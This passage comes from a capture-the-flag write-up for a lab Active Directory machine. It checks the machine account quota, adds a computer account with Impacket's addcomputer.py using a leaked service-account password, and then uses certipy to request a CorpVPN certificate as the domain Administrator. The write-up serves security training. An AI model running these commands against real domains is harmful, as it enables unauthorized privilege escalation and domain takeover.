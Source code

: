 ```powershell

Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota

```

![](28.jpg)

Perfect, the default settings have not been changed. Now we can utilise `addcomputer.py` from the [Impacket Suite](https://tools.thehacker.recipes/impacket/examples/addcomputer.py) to add create a new computer account with a password of our choice.

We'll need to specify the DC IP, computer name and our chosen password.

```shell

addcomputer.py -dc-ip 10.10.11.222 -computer-pass 'Whatever13' -computer-name new_computer 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!'

addcomputer.py -dc-ip 10.10.11.222 -computer-pass 'Whatever13' -computer-name new_computer 'authority.htb/svc_ldap:<password>'

```

![](29.png)

Now that we have a computer account, we can use it to request a template from the Certificate Authority. We need to specify credentials, the CA itself, the domain, the user principal name for the Administrator account so we can then authenticate as that account, and the DNS server, which we discovered previously when we saw what the PWM service was attempting to reach out to.

```shell
certipy req -u 'new_computer$' -p 'Whatever13' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222
```

![](30.png)
### Troubleshooting
